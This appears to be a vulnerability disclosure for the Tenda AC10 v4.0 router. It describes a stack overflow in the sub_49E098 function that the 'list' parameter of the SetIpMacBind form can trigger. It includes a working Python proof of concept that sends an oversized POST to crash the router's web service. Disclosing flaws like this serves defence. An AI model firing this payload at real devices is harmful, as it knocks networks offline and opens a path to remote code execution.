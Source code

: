 # Tenda Router Vulnerability on sub_49E098 function

> vendor:Tenda
>
> product:AC10
>
> version:v4.0 V16.03.10.13 
>
> type:Stack Overflow  

## Vulnerability Description

Tenda AC10V4.0 V16.03.10.13 were discovered to contain a stack overflow via the `list` parameter and make a crash in the `sub_49E098` function.

## Vulnerability Details

In function  `sub_49E098`  line 30 and 38, `v4` reads data from a user-provided parameter `list` from the caller function `fromSetIpMacBind`, and the variable is passed to the function `sscanf` without any length check, which may lead to overflow of the stack-based buffer `mac_addr` and `ip_addr` in line 30 or 38. As a result, by requesting the page, an attacker can easily execute a **denial of service** attack or **remote code execution**.

![image-20231004165258681](assets/sub_49E098.png)

## Recurring vulnerabilities and POC

Run this poc and you will see the service crash. The service will keep loading until it crashes.

```
import requests

headers = {
    'Host': '192.168.0.1',
    'Accept': '*/*',
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
    'Connection': 'close',
}
ip = "192.168.0.1"
ipaddr = "1" * 0x1000
data = 'bindnum=1&list=deviceName1\r10:11:11:11:11:11\r' + ipaddr

response = requests.post(
    f'http://{ip}/goform/SetIpMacBind', 
    headers=headers, 
    data=data, 
    verify=False)

```

